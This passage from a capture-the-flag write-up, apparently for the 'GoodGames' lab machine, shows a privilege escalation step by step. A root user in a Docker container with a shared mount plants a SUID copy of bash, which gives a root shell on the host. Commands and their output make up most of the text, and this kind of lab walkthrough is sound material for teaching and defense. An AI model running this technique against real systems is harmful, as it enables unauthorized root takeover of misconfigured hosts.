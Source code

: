 And it works the other way:

```

root@3a453ab39d3d:/home/augustus# touch from_container

```

```

augustus@GoodGames:~$ ls -l from_container 
-rw-r--r-- 1 root root 0 Feb 22 15:16 from_container

```

Interestingly, the file created from the container is owned by root, and the host treats it as it’s root!

### Shell

I’ll copy `/bin/bash` into augustus’ home directory on the host. It’s important to use `bash` from the host (I’ll cover why in [Beyond Root](#beyond-root)).

```

augustus@GoodGames:~$ cp /bin/bash .

```

Then in the container, I’ll change the owner to root, and set the permissions to be SUID:

```

root@3a453ab39d3d:/home/augustus# ls -l bash 
-rwxr-xr-x 1 1000 1000 1234376 Feb 22 15:25 bash
root@3a453ab39d3d:/home/augustus# chown root:root bash 
root@3a453ab39d3d:/home/augustus# chmod 4777 bash 
root@3a453ab39d3d:/home/augustus# ls -l bash
-rwsrwxrwx 1 root root 1234376 Feb 22 15:25 bash

```

Back on GoodGames, the changes are reflected:

```

augustus@GoodGames:~$ ls -l bash 
-rwsrwxrwx 1 root root 1234376 Feb 22 15:25 bash

```

Running it (with `-p` so that privileges aren’t dropped) returns a root shell:

```

augustus@GoodGames:~$ ./bash -p
bash-5.1# 

```
